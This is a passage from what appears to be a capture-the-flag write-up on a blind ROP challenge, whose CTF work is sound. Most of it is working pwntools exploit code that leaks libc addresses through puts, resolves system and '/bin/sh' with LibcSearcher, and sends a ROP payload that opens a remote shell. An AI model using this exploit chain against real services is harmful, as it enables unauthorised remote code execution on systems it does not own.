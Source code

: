 ```python
leaked = leak_bytes(p, offset, 0x400000, 0x1000, pop_rdi_ret, puts, stop_gadget)
open('leaked', 'w').write(leaked)
```

### Finishing up
At this point, it is just a typical ROP challenge. We can look into the plt to see what libc function addresses we can leak. Then use `LibcSearcher` to get us the address of `/bin/sh` and `system`.

```python
# Here I made another method to leak from an already opened remote session
# because as mentioned earlier the "server" we set up does not 
# preserve addresses from ASLR, meaning that the libc addresses will change every iteration.
def same_session_leak(r, offset, addr, rdi_ret, puts):
	main = 0x400697
	res = ''
	while len(res) < 8:
		r.sendline('a' * offset + p64(rdi_ret) + p64(addr) + p64(puts) + p64(main))
		try:
			content = r.recvuntil('WelCome my friend,Do you know password?\n')
		except EOFError:
			sleep(0.5)
			continue
		try:
			content = content[:content.index('\nWelCome')]
		except:
			pass
		if content == '':
			content = '\x00'
		res += content
		addr += len(content)
	return res

# prepares a payload to call a function
def call_function(offset, func, rdi, rdi_ret, return_addr):
	return 'a' * offset + p64(rdi_ret) + p64(rdi) + p64(func) + p64(return_addr)


r = remote(host, port)
r.recvuntil('WelCome my friend,Do you know password?\n')
puts_got = 0x601018
puts_libc = u64(same_session_leak(r, offset, puts_got, pop_rdi_ret, puts)[:8])

# resolve libc addresses
libc = LibcSearcher('puts', puts_libc)
libc_base = puts_libc - libc.dump('puts')

binsh = libc_base + libc.dump('str_bin_sh')
system = libc_base + libc.dump('system')

# call system
payload = call_function(offset, system, binsh, pop_rdi_ret, stop_gadget)
r.sendline(payload)
r.interactive()
```

And we get a shell!

## References
* https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/medium_rop/#blind-rop
* https://github.com/firmianay/CTF-All-In-One/blob/master/doc/6.1.1_pwn_hctf2016_brop.md
